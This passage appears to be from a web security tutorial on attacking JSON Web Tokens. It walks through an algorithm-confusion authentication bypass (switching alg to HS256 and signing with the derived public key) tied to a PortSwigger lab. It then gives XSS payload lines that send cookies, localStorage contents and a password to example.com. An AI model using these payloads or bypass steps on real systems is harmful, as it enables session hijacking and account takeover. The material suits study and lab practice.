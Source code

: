 To verify if the public key generated is right :

```python
python3 jwt_tool.py -V -pk <jwt_key>` to verify if its right
```

![image](https://flowhero.github.io/assets/images/shemas/2023_07_20_005548.png)

Or you can verify by using the **Tampered x509 JWT** and sending the request, if you get *200* then it's your account and it is the correct X.509 key.  Else repeat the Public key derivation Process.

- Copy **Public Key** with the blank line at the end !!
![image](https://flowhero.github.io/assets/images/shemas/2023_07_20_011040.png)

- **PEM** to **JWK** 
- Generate RSA key using the **JWK** we got from **PEM**
- Generate New Symetric Key with **base64 Encoded PEM** in *k* value :

![image](https://flowhero.github.io/assets/images/shemas/2023_07_20_012443.png)

- Change `alg` parameter to `HS256` 
- Change body as you like
- Sign it using the symetric Key
- Send Request

- [JWT authentication bypass via algorithm confusion with no exposed key](https://portswigger.net/web-security/jwt/algorithm-confusion/lab-jwt-authentication-bypass-via-algorithm-confusion-with-no-exposed-key)



## III - Stealing JWTs


---

There's no need to hack JWTs if you can **steal** and replay them!

If you have other vulnerabilities in the application you may be able to steal or hijack the tokens of other users.

### 3.1 - XSS


```js
document.location='http://example.com/cookiestealer.php?c='+document.cookie;

or

new Image().src = 'http://example.com/log.php?localStorage='+JSON.stringify(window['localStorage']);

or

document.location='http://example.com/?password='+secretPasswordVariable;
```

